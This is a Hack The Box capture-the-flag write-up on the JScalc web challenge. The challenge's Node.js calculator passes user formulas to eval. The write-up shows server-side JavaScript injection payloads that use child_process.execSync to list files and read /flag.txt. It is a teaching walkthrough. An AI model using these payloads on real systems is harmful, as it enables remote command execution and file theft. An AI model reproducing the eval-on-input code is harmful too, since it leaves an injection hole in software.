 ```yaml
---
title: JScalc - Hack The Box
date: 2024-11-16
---
```


# JScalc

![JScalc - thumbnail](/ctf/hack-the-box/challenges/web/jscalc/thumbnail.png)

## Challenge description

In the mysterious depths of the digital sea, a specialized JavaScript calculator has been crafted by tech-savvy squids.
With multiple arms and complex problem-solving skills, these cephalopod engineers use it for everything from inkjet
trajectory calculations to deep-sea math. Attempt to outsmart it at your own risk! 🦑

## Challenge overview

The challenge presents us with a web application that features a JavaScript calculator. Users can input formulas, which
the application evaluates and returns the result.

![JScalc - calculator](/ctf/hack-the-box/challenges/web/jscalc/home.png)

### How it works

Clicking the **Calculate** button sends a `POST` request to the `/api/calculate` endpoint, where the following
server-side code processes the formula:

```js
module.exports = {
    calculate(formula) {
        try {
            return eval(`(function() { return ${formula} ;}())`);

        } catch (e) {
            if (e instanceof SyntaxError) {
                return 'Something went wrong!';
            }
        }
    }
}
```

**Key Observations**:

1. The application uses the **`eval`** function to evaluate user-provided input.
2. The formula is executed within a function context, meaning arbitrary JavaScript can potentially be executed.

This reliance on `eval` makes the application vulnerable to **Server-Side JavaScript Injection (SSJI)**, allowing us to
execute arbitrary JavaScript code on the server.

## Exploitation

To confirm SSJI, we inject:

```js
process.platform
```

The response includes the server's platform `linux`, it confirms the vulnerability.

Using **Node.js’s `require` function**, we can execute arbitrary system commands through the `child_process` module. For
instance:

- **List files in the directory**:
    ```js
    require('child_process').execSync('ls').toString()
    ```

- **Retrieve the flag**:
    ```js
    require('child_process').execSync('cat /flag.txt').toString()
    ```

After injecting the payload, the server processes the request, and the response includes the contents of the `flag.txt`
file.

![JScalc - flag](/ctf/hack-the-box/challenges/web/jscalc/exploit.png)

With the fake flag retrieved, we can use the same technique to get the real flag on the HTB server.

![JScalc - pwned](/ctf/hack-the-box/challenges/web/jscalc/pwned.png)

## References

- [MDN Web Docs - eval()](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/eval)
- [Node.js - child_process](https://nodejs.org/api/child_process.html)
- [OWADP NodeGoat - Server-Side Injection](https://ckarande.gitbooks.io/owasp-nodegoat-tutorial/content/tutorial/a1_-_server_side_js_injection.html)
- [Github - Code injection](https://github.com/btarr/node-eval-code-injection)

